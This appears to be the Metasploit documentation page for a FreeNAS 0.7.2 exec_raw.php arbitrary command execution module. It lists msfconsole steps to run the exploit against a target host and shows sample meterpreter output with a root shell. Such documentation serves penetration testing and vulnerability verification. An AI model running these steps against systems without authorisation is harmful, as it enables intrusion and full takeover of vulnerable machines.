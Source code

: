 ## Vulnerable Application

This module exploits an arbitrary command execution flaw
in FreeNAS 0.7.2 < rev.5543. When passing a specially formatted URL
to the exec_raw.php page, an attacker may be able to execute arbitrary commands.

NOTE: This module works best with php/meterpreter payloads.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/http/freenas_exec_raw```
  4. Do: ```set rhost [ip]```
  5. Do: ```run```
  6. You should get a shell.

## Options

## Scenarios

### Unknown

```
meterpreter > sysinfo
Computer: freenas.local
OS      : FreeBSD freenas.local 7.3-RELEASE-p2 FreeBSD 7.3-RELEASE-p2 #0: Sat Jul 31 12:22:04 CEST 2010     root@dev.freenas.org:/usr/obj/freenas/usr/src/sys/FREENAS-i386 i386
meterpreter > getuid
Server username: root (0)
meterpreter >
```
